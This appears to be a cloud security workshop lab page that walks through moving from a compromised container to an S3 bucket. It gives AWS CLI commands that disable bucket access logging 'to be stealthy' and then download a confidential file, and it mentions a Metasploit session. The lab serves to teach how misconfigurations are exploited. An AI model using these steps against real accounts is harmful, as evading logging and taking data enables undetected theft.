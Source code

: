 ```yaml
---
title: "Lab 4: Moving laterally to a S3 bucket"
weight: 4
---
```


In the previous lab, we explored the compromised container and discovered an associated IAM profile with access to the AWS CLI. We also discovered that we have read access to Amazon Simple Storage Service (S3).

**Breakout**

Having identified this new potential lateral target (via S3 read access), let’s investigate how we can further leverage the AWS CLI.

Due to a fairly common access control misconfiguration, we can impersonate both the root user of this container, along with the existing AWS IAM profile associated with this container (for accessing AWS services). It is possible that excessive permissions have been assigned to this IAM profile, so let’s continue probing our capabilities in S3.

In the previous lab, we enumerated the AWS account S3 buckets.

![Listing S3 contents](/static/img/lab3-5.png)

Notice that two buckets include the string “confidential” and one of them appears to be a logging bucket. To be stealthy, we should disable any active bucket access logging policy that might be writing to that bucket.

_Get the target bucket name_

```shell
TARGET_BUCKET=$(aws s3api list-buckets --query 'Buckets[].[Name]' --output text | grep confidentialbucket)

echo $TARGET_BUCKET
```

Check for a bucket logging policy

```shell
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

![Bucket logging configuration](/static/img/lab4-1.png)

> [!NOTE]
> If your Metasploit session closes unexpectedly, type “run -j” at the metasploit console prompt to reconnect to the target.

We can see from the result that there is a logging bucket policy. We’ll create and associate an empty bucket policy with the confidential data bucket to disable the policy.

Associate an empty bucket-logging policy to disable bucket logging

```shell
echo "{}" > no-bucket-logging.json

aws s3api put-bucket-logging --bucket $TARGET_BUCKET --bucket-logging-status file://no-bucket-logging.json
```

Confirm that we attached the new bucket logging policy

```shell
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

Since we added a null policy, the command should return nothing. It worked!

**Confirming the S3 target**

Now we’re just going to try and access the confidential bucket and see if we get results. AWS S3 buckets support granular permissions, so while we may have access to the bucket, we might not be able to list files, or only list specific files.

```shell
aws s3 ls s3://$TARGET_BUCKET
```

![Reviewing bucket target](/static/img/lab4-2.png)

Success!

We only see the one file, but it does look pretty interesting...

Download the file to the local container

```shell
aws s3 cp s3://$TARGET_BUCKET/confidential-data.txt s3-captured.txt
```

**Attack progression diagram**

There are three steps to this attack. The diagram below shows what we have accomplished with a few simple misconfigurations.

![Attack progression](/static/img/lab4-3.png)
